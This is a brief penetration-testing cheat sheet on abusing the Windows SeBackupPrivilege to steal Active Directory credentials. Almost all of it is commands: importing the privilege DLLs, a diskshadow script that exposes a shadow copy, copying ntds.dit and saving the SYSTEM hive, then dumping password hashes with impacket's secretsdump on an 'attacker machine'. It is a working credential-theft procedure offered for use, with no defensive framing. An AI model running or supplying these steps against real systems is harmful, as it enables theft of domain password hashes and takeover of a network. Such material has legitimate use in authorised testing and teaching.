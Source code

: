 # SeBackupPrivilege
-----------------
https://github.com/giuliano108/SeBackupPrivilege

Import the DLL using:
```
Import-Module ./SeBackupPrivilegeUtils.dll
Import-Module ./SeBackupPrivilegeCmdLets.dll
```

## Shadow Copy
copy.txt for shadow copy:
```txt
set context persistent nowriters
set metadata C:\temp\metadata.cab
set verbose on
add volume c: alias mycopy
create
expose %mycopy% x:
```

```
diskshadow /s copy.txt
```

```
Copy-FileSeBackupPrivilege x:windows\ntds\ntds.dit C:\temp\ntds.dit

reg save hklm\system C:\temp\system.back
```

Transfer the files back to the attacker machine and get the hashes using impacket:

```bash
python3 /opt/impacket/examples/secretsdump.py -ntds ntds.dit -system system.back local
```
